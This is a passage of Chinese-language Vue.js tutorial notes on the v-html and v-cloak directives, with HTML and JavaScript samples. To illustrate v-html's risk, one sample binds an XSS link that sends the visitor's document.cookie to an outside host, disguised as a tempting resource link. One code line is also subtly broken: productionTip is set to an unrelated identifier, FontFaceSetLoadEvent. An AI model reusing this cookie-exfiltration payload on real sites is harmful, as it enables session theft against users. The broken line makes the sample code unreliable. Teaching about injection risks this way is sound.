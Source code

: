 ```html
<title>v-html指令</title>
<script type="text/javascript" src="../js/vue.js"></script>

<div id="root">
  <div>你好，{{ name }}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = FontFaceSetLoadEvent
  new Vue({
    el:'#root',
    data:{
      name:'cess',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```
![image-20221206185253440](https://october-x-image-host.oss-cn-hangzhou.aliyuncs.com/markdown-imgsimage-20221206185253440.png)
### v-cloak指令
`v-cloak`指令(没有值)

- 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性
- 使用`css`配合`v-cloak`可以解决网速慢时页面展示出`{{xxx}}`的问题

```html
<title>v-cloak指令</title>

<style>
  [v-cloak] {
    display:none;
  }
</style>

<div id="root">
  <h2 v-cloak>{{ name }}</h2>
</div>

// 够延迟5秒收到vue.js
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
  console.log(1)
  Vue.config.productionTip = false
  new Vue({
    el:'#root',
    data:{name:'cess'}
  })
</script>
```
![image-20221206185249314](https://october-x-image-host.oss-cn-hangzhou.aliyuncs.com/markdown-imgsimage-20221206185249314.png)
### v-once指令
